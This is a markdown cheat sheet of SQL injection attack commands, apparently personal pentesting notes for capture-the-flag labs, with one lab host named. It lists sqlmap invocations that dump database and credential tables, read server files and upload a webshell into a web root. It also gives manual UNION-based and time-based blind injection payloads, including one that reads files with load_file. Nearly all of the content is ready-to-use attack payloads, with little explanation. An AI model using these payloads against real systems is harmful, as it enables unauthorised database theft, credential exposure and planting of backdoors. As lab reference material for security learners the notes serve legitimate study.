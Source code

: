 # SQL INJECTION(SQLi)
- [HackTricks](https://book.hacktricks.xyz/pentesting-web/sql-injection)
- [PayLoads](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/README.md)

We want to find credentials exploring possible DBs and tables. Another way is to read files.


## sqlmap:
- `sqlmap -r request.req --dbs`
- `sqlmap -r request.req -D main --tables`
- `sqlmap -r request.req -D main -T user --columns`
- `sqlmap -r request.req -D main -T user --dump`
- `sqlmap -r req.req --level=5 --risk=3 --batch --file-read=/var/www/html/index.php>`
- `sqlmap -r req.req --level=5 --risk=3 --batch --file-write=/home/kali/Downloads/Exploit/webshell.php --file-dest=/var/www/html/webshell.php`
- `sqlmap -u "ws://soc-player.soccer.htb:9091" --data '{"id": "*"}' --threads 10 --level 5 --risk 3 --batch -D soccer_db -T accounts --dump`

    - `--dbs` Enumerate databases
    - `--tables` Enumerate DB tables
    - `--columns` Enumerate columns
    - `--dump` Get table values
    - `--level` (max 5)
    - `--risk` (max 3)
    - `--batch` Ask no questions
    - `--file-read` Path to file that we want to read from server
    - `--file-write` Path to file that we want to upload to server
    - `--file-dest` Path to location that we want to put the uploaded file

    - `-r` Request file
    - `-D` Select DB
    - `-T` Select Table

## manual:
- `admin' union select 1;-- -`
- FIND ALL DBS:
  `admin' UNION SELECT group_concat(schema_name) FROM information_schema.schemata;-- -`
- FIND TABLES IN DB:
  `admin' UNION SELECT group_concat(table_name) FROM information_schema.tables where table_schema='november';-- -`
- FIND COLUMNS IN TABLE:
  `admin' UNION SELECT group_concat(table_name, ':', column_name) FROM INFORMATION_SCHEMA.columns WHERE table_schema='november';-- -`
- FIND VALUES:
  `admin' UNION SELECT group_concat(one) FROM flag;-- -`
- READ FILES:
  `admin' UNION SELECT load_file('/var/www/html/index.php');-- -`

## manual time based:
- FIND DB NUMBER OF CHARACTERS:
- `1%20OR%20IF(LENGTH((SELECT%20database()))=5,SLEEP(1),0)%23`
